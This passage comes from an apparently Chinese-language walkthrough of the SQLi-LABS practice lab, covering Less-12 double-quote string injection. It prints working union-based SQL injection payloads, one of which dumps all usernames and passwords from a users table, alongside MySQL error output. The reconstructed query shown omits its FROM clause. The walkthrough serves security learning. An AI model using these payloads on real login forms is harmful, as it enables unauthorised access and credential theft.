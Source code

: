 + 现在我们已经知道该SQL语句应该为：

```sql
select username, password from username = '$username' and password = '$password' limit 0, 1;
```

+ 接下来我们就需要获取users表中的所有数据。

```sql
uname='union+select+(select+group_concat(username)+from+users),(select+group_concat(password)+from+users)--+&passwd=admin&submit=Submit
```

![image-20210926171549808](../../images/SQLi-LABS/image-20210926171549808.png)

## Less-12 基于错误-双引号-字符串

+ 使用`"union+select+1,2--+`payload会出现错误。

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'union select 1,2-- ") and password=("admin") LIMIT 0,1' at line 1
```

+ 然后发现双引号后面有有单引号，使用下列payload成功绕过。

```sql
uname="union+select+1,2--+&passwd=admin&submit=Submit
```
